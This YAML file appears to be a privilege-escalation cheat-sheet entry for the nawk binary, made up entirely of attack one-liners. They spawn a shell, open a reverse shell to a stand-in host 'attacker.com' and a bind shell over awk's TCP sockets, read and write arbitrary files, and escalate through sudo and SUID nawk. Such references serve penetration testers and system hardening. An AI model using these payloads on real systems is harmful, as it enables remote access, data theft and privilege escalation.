 ```yaml
---
functions:
  shell:
    - code: nawk 'BEGIN {system("/bin/sh")}'
  non-interactive-reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nawk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
            s = "/inet/tcp/0/" RHOST "/" RPORT;
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nawk -v LPORT=$LPORT 'BEGIN {
            s = "/inet/tcp/" LPORT "/0/0";
            while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
            while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
  file-write:
    - code: |
        LFILE=file_to_write
        nawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        nawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./nawk '//' "$LFILE"
  sudo:
    - code: sudo nawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./nawk 'BEGIN {system("/bin/sh")}'
---
```


